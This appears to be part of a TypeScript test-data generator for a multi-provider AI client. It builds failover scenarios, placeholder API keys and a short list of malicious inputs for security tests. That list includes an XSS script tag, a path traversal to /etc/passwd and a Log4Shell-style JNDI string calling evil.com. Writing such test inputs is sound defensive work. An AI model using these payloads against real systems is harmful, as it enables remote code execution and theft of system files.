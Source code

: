 ```typescript
        return {
          ...baseCapabilities,
          supportedModels: ['llama2', 'codellama', 'mistral'],
          maxTokens: 4096,
          supportedFeatures: [...baseCapabilities.supportedFeatures, 'local-processing'],
        };
    }
  }
  
  static generateFailoverScenarios(): FailoverTestScenario[] {
    return [
      {
        name: 'Primary provider authentication failure',
        initialProvider: 'openai',
        failureType: 'authentication-failed',
        expectedFailover: 'anthropic',
        expectedNotifications: ['failover'],
        retryCount: 0,
      },
      {
        name: 'Provider service outage with retry',
        initialProvider: 'anthropic',
        failureType: 'service-unavailable',
        expectedFailover: 'gemini',
        expectedNotifications: ['retry', 'failover'],
        retryCount: 3,
      },
      {
        name: 'Network connectivity issues',
        initialProvider: 'gemini',
        failureType: 'network-error',
        expectedFailover: 'ollama',
        expectedNotifications: ['retry', 'retry', 'failover'],
        retryCount: 2,
      },
    ];
  }
  
  static generateSecurityTestData(): SecurityTestData {
    return {
      validCredentials: {
        openai: { apiKey: 'sk-test-valid-key-' + generateRandomString(40) },
        anthropic: { apiKey: 'sk-ant-test-valid-key-' + generateRandomString(40) },
        gemini: { apiKey: 'AIza-test-valid-key-' + generateRandomString(32) },
        ollama: { endpoint: 'http://localhost:11434', apiKey: '' },
      },
      invalidCredentials: {
        openai: { apiKey: 'invalid-key-format' },
        anthropic: { apiKey: 'wrong-prefix-key' },
        gemini: { apiKey: 'short-key' },
        ollama: { endpoint: 'invalid-url', apiKey: '' },
      },
      maliciousInputs: [
        '<script>alert("xss")</script>',
        'javascript:void(0)',
        '../../etc/passwd',
        '${jndi:ldap://evil.com/a}',
      ],
    };
  }
}
```
